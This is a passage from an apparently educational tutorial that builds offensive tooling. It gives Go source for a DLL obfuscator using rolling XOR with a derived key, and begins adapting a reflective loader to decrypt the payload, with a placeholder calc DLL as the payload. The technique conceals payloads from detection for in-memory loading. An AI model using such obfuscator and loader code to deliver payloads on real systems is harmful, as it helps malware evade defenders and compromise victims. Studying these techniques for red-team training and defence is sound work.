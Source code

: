 
## Step 2: Modify our Obfuscator Tool
We've added most of the new logic we need our obfuscator, but we need to "rewire" the main function to use it now instead of the hardcoded key + simple XOR. So replace the existing main() function
with the following. Note our `timestamp` and `clientID` parameters are static placeholder values for now, in the future we'll derive these from requests sent by the client (i.e. loader).


```go
    func main() {
    	fmt.Println("[+] DLL Obfuscator Tool (Rolling XOR + Derived Key)")
    
    	// --- Configuration ---
    	inputDllPath := "calc_dll.dll"
    	outputFilePath := "calc_dll.rkd.xor" // New output name
    	// Placeholders for dynamic data (MUST MATCH THE LOADER'S PLACEHOLDERS)
    	timestamp := "1712345678" // Example static timestamp
    	clientID := "MyTestClient-9876" // Example static client ID
    
    	fmt.Printf("[+] Input DLL: %s\n", inputDllPath)
    	fmt.Printf("[+] Output File: %s\n", outputFilePath)
    	fmt.Printf("[+] Placeholder Timestamp: %s\n", timestamp)
    	fmt.Printf("[+] Placeholder ClientID: %s\n", clientID)
    
        // --- Derive Key ---
        fmt.Println("[+] Deriving obfuscation key...")
        sharedSecret := generatePEValidationKey()
        finalKey := deriveKeyFromParams(timestamp, clientID, sharedSecret)
        fmt.Printf("    Shared Secret (generated): %s\n", sharedSecret) // Example: "Sample-key-value...."
        fmt.Printf("    Final Key (derived, Hex): %X\n", []byte(finalKey))
    
    	// --- Read Input DLL ---
        fmt.Printf("[+] Reading input DLL '%s'...\n", inputDllPath)
    	plaintextBytes, err := os.ReadFile(inputDllPath)
    	if err != nil { log.Fatalf("[-] Failed to read input file: %v\n", err) }
        fmt.Printf("[+] Read %d bytes from input DLL.\n", len(plaintextBytes))
    
    	// --- Obfuscate using Rolling XOR and Derived Key ---
    	fmt.Println("[+] Obfuscating DLL bytes using Rolling XOR...")
    	obfuscatedBytes := xorEncryptDecrypt(plaintextBytes, []byte(finalKey))
    	fmt.Println("[+] Obfuscation complete.")
    
    	// --- Write Output File ---
    	fmt.Printf("[+] Writing %d obfuscated bytes to '%s'...\n", len(obfuscatedBytes), outputFilePath)
    	err = os.WriteFile(outputFilePath, obfuscatedBytes, 0644)
    	if err != nil { log.Fatalf("[-] Failed to write output file: %v\n", err) }
    	fmt.Println("[+] Output file written successfully.")
    	fmt.Println("[+] Obfuscator finished.")
    }
    ```



## Step 3: Modify our Reflective Loader
Similar to what we've just done above, we also have to reconfigure our loader tool to use the new key derivation logic.

First off, remove the following since we won't be using it any longer.

```go
xorKey := []byte{0x55, 0xAA, 0x55, 0xAA, 0x11, 0x22, 0x33, 0x44}  
fmt.Printf("[+] Using XOR Key (Hex): %X\n", xorKey)
```
